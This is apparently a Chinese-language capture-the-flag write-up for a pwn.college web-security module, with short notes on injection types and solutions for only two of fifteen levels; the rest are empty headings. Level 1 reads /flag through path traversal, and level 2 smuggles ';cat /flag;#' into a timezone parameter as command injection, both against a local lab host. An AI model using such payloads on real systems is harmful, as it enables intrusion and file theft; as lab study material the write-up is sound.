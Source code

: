 # Knoeledge
需要知道web服务器都能干什么事

SQL，大名鼎鼎的SQL注入

命令注入

HTML，也就是注入部分JavaScript

C语言的堆栈注入

总的来说就是利用Web服务器会执行一些语句（部分参数来自于我们的输入），来进行操作。

Origin的概念：(<shceme>,<host>,<post>)
（http, exapmle.com,80）

HTML-embeds、域名、站点等概念，基本上都是计算机网络的内容
# WP

## level1 Exploit a path traversal vulnerability
这个其实我找不到太好的方法，只能猜，猜到了就是了
```
hacker@web-security-level-1:~$ curl http://challenge.localhost:80/?path=/flag
pwn.college{4MSrtxHJYUF2_wAz81iNV6UtM5K.ddDOzMDL2QjMyMzW}
hacker@web-security-level-1:~$
```
## level2 Exploit a command injection vulnerability
这个十分简单，就是一个简单的命令注入，只需要让前面的命令闭合即可
```
hacker@web-security-level-2:~$ curl "http://challenge.localhost:80/?timezone=;cat%20/flag;#"
pwn.college{o0h_efJ2CAv60AmeSOoPYGrZKBs.dhDOzMDL2QjMyMzW}
Mon Jul 24 07:17:20 UTC 2023
```
## level3 Exploit an authentication bypass vulnerability


```

```
## level4 Exploit a structured query language injection vulnerability to login


```

```
## level5 Exploit a structured query language injection vulnerability to leak data


```

```
## level6 Exploit a structured query language injection vulnerability with an unknown database structure


```

```
## level7 Exploit a structured query language injection vulnerability to blindly leak data


```

```
## level8 Exploit a cross site scripting vulnerability


```

```
## level9 Exploit a cross site scripting vulnerability with more complicated context


```

```
## level10 Exploit a cross site scripting vulnerability to cause a user action


```

```
## level11 Exploit a cross site request forgery vulnerability

```

```
## level12 Exploit a cross site request forgery vulnerability where the request must POST


```

```
## level13 Exploit a cross site scripting vulnerability to exfilitrate user session data


```

```
## level14 Exploit a cross site scripting vulnerability to exfilitrate user data


```

```
## level15 Exploit a (memory corruption) stack injection vulnerability


```

```